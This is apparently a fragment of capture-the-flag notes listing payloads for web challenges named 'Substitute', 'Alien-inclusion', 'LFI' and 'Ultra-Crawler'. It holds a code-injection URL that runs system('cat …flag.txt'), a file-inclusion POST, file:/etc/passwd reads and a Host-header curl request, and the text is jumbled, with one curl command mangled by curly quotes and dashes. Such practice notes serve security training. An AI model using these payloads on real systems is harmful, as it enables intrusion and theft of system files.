 http://35.246.227.46:31872/index.php?vector=/Admin/e&replace=system(%22cat%20here_we_dont_have_flag/flag.txt%22)  Substitute


Curl –x ‘POST’ ‘http://IP/?start=’ –data ‘start=flag.php’ Alien-inclusion


File:/etc/passwd      File:/home/ctf/app.py

curl -X POST http://34.141.113.155:32567/ \
  -H "Host: company.tld" \
  -d "url=http://example.com"



                                                   LFI  Ultra-Crawler
